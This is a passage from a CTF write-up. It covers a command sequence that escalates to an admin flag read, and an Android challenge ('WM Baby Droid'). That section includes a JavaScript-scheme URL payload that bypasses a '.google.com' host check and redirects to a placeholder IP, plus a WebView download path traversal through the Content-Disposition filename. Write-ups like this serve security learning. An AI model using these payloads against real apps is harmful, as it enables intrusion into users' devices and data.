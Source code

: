 因此直接按照指令格式进行队伍和用户的创建即可。输入的 exp 如下：

```
create user -n adm1n -p 123456 -P 1 -e nmsl
create user -n usr -p 654321 -P 2 -e wsnd
create user -n usr2 -p 654321 -P 2 -e wsnd
login user -n adm1n -p 123456
create team -n t1
login user -n usr -p 654321
join -n t1
login user -n usr2 -p 654321
join -n t1
login user -n adm1n -p 123456
admin load /home/ctf/flag
END
```

### WM Baby Droid

#### Bypass the validation of domain host 

The validation can be seen below:

```Java
if (!uri.getHost().endsWith(".google.com")) {
    finish();
    return;
}
```

It requires a url whose domain host needs to end with `.google.com`. But it doesn't really mean you need own a google sub-domain. It could be bypassed by scheme because there isn't any validation on url scheme. 

POC

```Plain
JavaScript://www.google.com/%0d%0awindow.location.href='http://xx.xx.xx.xx/'
```

#### Path traversal when Webview downloading

The vulnerable code can be seen below:

```Java
webView.setDownloadListener(new DownloadListener() {
    @Override
    public void onDownloadStart(String url, String userAgent, String contentDisposition, String mimeType, long contentLength) {
        String fileName = parseContentDisposition(contentDisposition);
        String destPath = new File(getExternalCacheDir(), fileName).getPath();
        new DownloadTask().execute(url, destPath);
    }
});
```

The path to save the download file, is directly  spliced from `getExternalCacheDir()`and  `fileName` . Function parseContentDisposition will return the filename shown in Http header `"Content-Disposition"`
